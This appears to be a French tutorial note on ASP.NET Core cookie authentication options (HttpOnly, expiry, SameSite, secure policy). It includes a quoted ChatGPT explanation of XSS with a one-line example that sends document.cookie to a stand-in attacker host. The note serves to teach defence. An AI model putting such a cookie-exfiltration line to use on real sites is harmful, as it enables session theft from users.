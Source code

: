# Les options de sécurité du `cookie`

```cs
builder.Services.AddAuthentication(CookieAuthenticationDefaults.AuthenticationScheme)
    .AddCookie(options =>
    {
        options.LoginPath = "/hukar-login";
        options.LogoutPath = "/hukar-logout";
        options.Cookie.HttpOnly = true;
        options.ExpireTimeSpan = TimeSpan.FromMinutes(30);
        options.SlidingExpiration = true;
        options.Cookie.SecurePolicy = CookieSecurePolicy.Always;
        options.Cookie.SameSite = SameSiteMode.Strict;
        options.Cookie.Domain = "my-app.com";
    });
```

### `options.Cookie.HttpOnly`  : `bool`

`true` => Empêche l'accès au `cookie` via `Javascript`.

Lors d'une attaque `XSS` un script malveillant est injecté dans le site, celui-ci ne pourra alors pas lire le `cookie` authentification.

> ChatGpt
>
> ### ✅ ** `HttpOnly` protège contre le vol de cookies via JavaScript**
>
> Quand un cookie est marqué avec **`HttpOnly = true`**, il **ne peut pas être accédé via JavaScript** (`document.cookie`). Cela signifie que si un attaquant injecte du script malveillant sur ton site (**XSS**), il ne pourra pas récupérer directement le cookie d’authentification.
>
> #### 🔍 **Exemple d'attaque empêchée par `HttpOnly`** :
>
> ```js
> // Si HttpOnly est activé, cela échoue :
> console.log(document.cookie); // Impossible d'accéder au cookie
> ```
>
> Sans `HttpOnly`, un attaquant pourrait récupérer le cookie et l'envoyer à son serveur :
>
> ```js
> fetch("https://malicious-site.com/steal-cookie?data=" + document.cookie);
> ```



### `options.ExpireTimeSpan` : `TimeSpan`

`TimeSpan.FromMinutes(30)` => Expiration du `cookie` après `30` minutes.



### `options.SlidingExpiration` : `bool`
